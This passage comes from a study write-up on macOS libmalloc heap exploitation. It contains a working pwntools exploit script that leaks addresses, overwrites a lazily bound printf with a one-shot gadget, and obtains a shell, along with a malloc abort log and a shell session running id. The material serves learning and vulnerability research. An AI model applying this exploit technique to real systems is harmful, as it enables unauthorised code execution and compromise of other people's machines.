 Note that Target Address should use the `printf address >> 4` value.

Also, the cookie value must be zero to enter the address of the oneshot gadget.

Based on this, the code is written as follows:

```python
from pwn import *

for i in range(100):
    try:
        r = process('./a.out')
        exit = int(r.recvuntil('\n').split(' : ')[1].strip(),16)
        main = int(r.recvuntil('\n').split(' : ')[1].strip(),16)
        _lazy_printf = main - 0xD80 + 0x1040
        oneshot = exit - 0x5c67c + 0x000000000002573B 

        payload = ''
        payload += p64(oneshot)
        payload += p64(_lazy_printf >> 4)

        print payload.encode('hex')
        r.sendline(payload)
        r.interactive()
    except:
        r.close()
```
If cookie is not correct, an error occurs when Malloc as shown below.
```
ptr1 => 0x7ffcb6402b60
ptr3 => 0x7ffcb6402be0
ptr5 => 0x7ffcb6402c60
AAAAAAAAAAAAAAAAAAAAAA
ptr7 => 0x7ffcb6402c60
a.out(16738,0x1160565c0) malloc: Incorrect checksum for freed object 0x7ffcb6402be8: probably modified after being freed.
Corrupt value: 0x4141414141414141
a.out(16738,0x1160565c0) malloc: *** set a breakpoint in malloc_error_break to debug
Abort trap: 6
```
When the cookie is set \x00, `printf` is overwritten with an `oneshot gadget` and you can get shell.
```
[+] Starting local process './a.out': pid 22291
[*] Switching to interactive mode
$ pwd
/Users/shpik/study/osx_heap
$ id
uid=501(shpik) gid=20(staff) groups=20(staff),701(com.apple.sharepoint.group.1),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
$
```

## Resource
https://opensource.apple.com/source/libmalloc/libmalloc-166.220.1/src/

https://www.synacktiv.com/ressources/Sthack_2018_Heapple_Pie.pdf

https://papers.put.as/papers/macosx/2016/Summercon-2016.pdf